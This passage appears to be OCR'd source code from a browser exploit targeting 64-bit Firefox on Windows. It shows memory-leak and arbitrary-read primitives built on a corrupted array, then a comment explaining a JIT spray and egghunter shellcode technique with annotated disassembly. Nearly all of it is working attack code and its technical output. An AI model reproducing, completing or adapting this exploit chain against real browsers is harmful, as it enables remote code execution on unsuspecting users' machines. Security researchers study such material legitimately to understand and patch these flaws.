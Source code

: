         HelperDbl[0] = MutableArray.x;
        LeakedLow = HelperDword[1];
        HelperDbl[0] = MutableArray.y; // Works in release, not in debug (assertion issues)
        LeakedHigh = HelperDword[0] & 0x00007fff; // Filter off tagged pointer bits
        BugArray2[8] = SavedSlotsPtr;
        HelperDword[0] = LeakedLow;
        HelperDword[1] = LeakedHigh;

        return HelperDbl[0];
    }

    ExplicitDblArray = new Float64Array(1); // Used for the strong read
    ExplicitDblArrayDataPtr = null; // Save the pointer to the data pointer so we don't have to recalculate it each read

    function ExplicitLeakDbl(TargetAddress) {
        WeakWriteDbl(ExplicitDblArrayDataPtr, TargetAddress);
        return ExplicitDblArray[0];
    }

    /*//////
    ////////
    // JIT spray/egghunter shellcode logic
    ////////

    JIT spray in modern Firefox 64-bit on Windows seems to behave very differently
    when a special threshold of 100 double float constants are planted into a single
    function and JIT sprayed. When more than 100 are implanted, the JIT code pointer
    for the JIT sprayed function will look as follows:

    00000087EB6F5280 | E9 23000000              | jmp 87EB6F52A8                   <- JIT code pointer for JIT sprayed function points here
    00000087EB6F5285 | 48:B9 00D0F2F8F1000000   | mov rcx,F1F8F2D000
    00000087EB6F528F | 48:8B89 60010000         | mov rcx,qword ptr ds:[rcx+160]
    00000087EB6F5296 | 48:89A1 D0000000         | mov qword ptr ds:[rcx+D0],rsp
    00000087EB6F529D | 48:C781 D8000000 0000000 | mov qword ptr ds:[rcx+D8],0
    00000087EB6F52A8 | 55                       | push rbp
    00000087EB6F52A9 | 48:8BEC                  | mov rbp,rsp
    00000087EB6F52AC | 48:83EC 48               | sub rsp,48
    00000087EB6F52B0 | C745 E8 00000000         | mov dword ptr ss:[rbp-18],0
    ...
    00000087EB6F5337 | 48:BB 4141414100000000   | mov rbx,41414141                 <- Note the first double float being loaded into RBX
    00000087EB6F5341 | 53                       | push rbx
    00000087EB6F5342 | 49:BB D810EAFCF1000000   | mov r11,F1FCEA10D8
    00000087EB6F534C | 49:8B3B                  | mov rdi,qword ptr ds:[r11]
    00000087EB6F534F | FF17                     | call qword ptr ds:[rdi]
    00000087EB6F5351 | 48:83C4 08               | add rsp,8
    00000087EB6F5355 | 48:B9 40807975083D0000   | mov rcx,3D0875798040
    00000087EB6F535F | 49:BB E810EAFCF1000000   | mov r11,F1FCEA10E8
    00000087EB6F5369 | 49:8B3B                  | mov rdi,qword ptr ds:[r11]
    00000087EB6F536C | FF17                     | call qword ptr ds:[rdi]
    00000087EB6F536E | 48:BB 9090554889E54883   | mov rbx,8348E58948559090
    00000087EB6F5378 | 53                       | push rbx
    00000087EB6F5379 | 49:BB F810EAFCF1000000   | mov r11,F1FCEA10F8
    00000087EB6F5383 | 49:8B3B                  | mov rdi,qword ptr ds:[r11]
    00000087EB6F5386 | FF17                     | call qword ptr ds:[rdi]
    00000087EB6F5388 | 48:83C4 08               | add rsp,8
    00000087EB6F538C | 48:B9 40807975083D0000   | mov rcx,3D0875798040
    00000087EB6F5396 | 49:BB 0811EAFCF1000000   | mov r11,F1FCEA1108
    00000087EB6F53A0 | 49:8B3B                  | mov rdi,qword ptr ds:[r11]
    00000087EB6F53A3 | FF17                     | call qword ptr ds:[rdi]
    ...
